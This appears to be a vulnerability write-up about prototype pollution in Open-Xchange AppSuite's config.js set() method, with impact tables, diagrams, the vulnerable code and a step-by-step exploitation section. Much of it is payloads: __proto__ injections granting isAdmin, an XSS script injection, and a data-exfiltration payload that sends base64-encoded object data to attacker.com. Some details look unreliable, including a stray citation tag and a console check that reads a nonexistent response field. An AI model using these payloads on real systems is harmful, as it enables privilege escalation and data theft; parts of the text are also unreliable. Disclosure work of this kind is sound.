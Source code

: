 ## Vulnerability Overview  
A vulnerabilities prototype pollution vulnerability exists in Open-Xchange AppSuite's configuration management system, allowing attackers to modify JavaScript object prototypes and compromise application security. This vulnerability enables complete application takeover through prototype chain manipulation.  

**Technical Specifications**  
| Category            | Details                                                                 |  
|---------------------|-------------------------------------------------------------------------|  
| **Component**       | `ui/apps/io.ox/core/config.js`                                         |  
| **Vulnerable Method** | `set()`                                                                |  
| **Line Number**     | L56                                                                     |  
| **CWE Classification** | CWE-1321: Improperly Controlled Modification of Object Prototype Attributes |  

**Security Impact**  
- Remote code execution through prototype manipulation  
- Authentication bypass via prototype pollution  
- Sensitive data exposure  
- Complete application compromise  


## Vulnerability Flow  
```mermaid  
graph TD  
    A[Attacker] --> B[Inject Malicious Config]  
    B --> C[AppSuite Processes Config]  
    C --> D{Prototype Pollution Checks?}  
    D -->|Missing| E[Object.prototype Modified]  
    E --> F[Application Logic Manipulation]  
    E --> G[Privilege Escalation]  
    E --> H[Remote Code Execution]  
```  

---

## Detailed Vulnerability (A/F)  

| Aspect               | Details                                                                 |  
|---------------------|-------------------------------------------------------------------------|  
| Attack Vector        | Malicious configuration input                                         |  
| Complexity          | Medium (Requires understanding of JS prototypes)                      |  
| Privileges Required | None                                                                   |  
| User Interaction     | Required (Configuration submission)                                   |  
| Scope               | Application-wide object modifications                                |  
| Confidentiality      | High (Access to sensitive data)                                       |  
| Integrity           | Critical (Full application control)                                   |  
| Availability        | High (Application crash possible)                                     |  

## Comparative Analysis  

| Feature          | Vulnerable Version                   | Patched Version                     |  
|------------------|--------------------------------------|-------------------------------------|  
| Property Filter  | None                                 | Blocks `__proto__`, `constructor`   |  
| Assignment Depth | Recursive                            | Shallow assignment                  |  
| Validation       | Syntactic only                       | Prototype-aware validation          |  
| Error Handling   | Silent failures                      | Explicit security exceptions        |  

---


## Step-by-Step Technical Flow  
### Exploitation Pathway  
1. **Initial Access**:  
   - Attacker crafts malicious configuration payload  
   ```javascript  
   const maliciousConfig = {  
     "__proto__": {  
       "isAdmin": true,  
       "toString": () => "HACKED"  
     }  
   };  
   ```  

2. **Vulnerable Processing**:  
   ```javascript  
   // Vulnerable set() function  
   set("malicious.path", maliciousConfig);  
   ```  

3. **Prototype Pollution**:  
   - Modifies `Object.prototype`  
   - Affects all JavaScript objects in application  

4. **Privilege Escalation**:  
   ```javascript  
   // Authentication bypass  
   if (user.isAdmin) {  // Now true for all objects!  
     grantAdminAccess();  
   }  
   ```  


## Proof of Concept  
### Vulnerable Code Snippet  
```javascript [citation:search result]  
// Original vulnerable implementation (Line 56)  
set: function (key, value) {  
    var parts = key.split('.'),  
        temp = config,  
        part;  
    while (parts.length > 1) {  
        part = parts.shift();  
        if (!temp[part]) temp[part] = {};  
        temp = temp[part];  
    }  
    temp[parts.shift()] = value;  // VULNERABLE  
}  
```  

### Exploitation Demostration
```javascript  
// Step 1: Trigger prototype pollution  
ox.config.set("__proto__.isAdmin", true);  

// Step 2: Verify pollution  
console.log({}.isAdmin); // true  

// Step 3: Bypass authentication  
function checkAdmin(user) {  
    if (user.isAdmin) {  
        return sensitiveAdminData;  
    }  
}  
// Now returns data for ANY user  
```  

### Browser Console Verification  
```javascript  
// Execute in browser console after exploitation  
fetch('/appsuite/api/login', {  
    method: 'POST',  
    body: JSON.stringify({username: 'attacker', password: 'password'})  
}).then(response => {  
    console.log("Admin access:", response.adminFunctions);  
});  
```  

## Technical Vulnerability  
**Root Cause Analysis**:  
1. **Unfiltered Property Assignment**:  
   ```javascript  
   temp[parts.shift()] = value;  // Assigns directly without validation  
   ```  

2. **Recursive Path Resolution**:  
   ```javascript  
   // Processes paths like "a.b.c.__proto__.polluted"  
   while (parts.length > 1) {  
       part = parts.shift();  
       if (!temp[part]) temp[part] = {};  
       temp = temp[part];  
   }  
   ```  

3. **Prototype Chain Injection**:  
   - Setting `__proto__` property modifies the prototype chain  
   - Affects all objects created after pollution  

## Exploit Chaining  
```mermaid  
sequenceDiagram  
    participant Attacker  
    participant Application  
    participant ObjectProto  

    Attacker->>Application: Submit malicious config  
    Application->>ObjectProto: Set __proto__.isAdmin = true  
    ObjectProto-->>Application: Modified prototype  
    Application->>AllObjects: Inherit poisoned properties  
    AllObjects->>AuthCheck: Bypass security  
```  

1. **Authentication Bypass**:  
   ```javascript  
   {  
     "__proto__": {  
       "isAdmin": true,  
       "roles": ["superadmin"]  
     }  
   }  
   ```  

2. **XSS Injection**:  
   ```javascript  
   {  
     "__proto__": {  
       "toString": function() {  
         return "<script>alert(1)</script>";  
       }  
     }  
   }  
   ```  

3. **Data Exfiltration**:  
   ```javascript  
   {  
     "__proto__": {  
       "toJSON": function() {  
         fetch('https://attacker.com?data=' + btoa(JSON.stringify(this)));  
       }  
     }  
   }  
   ```  

---

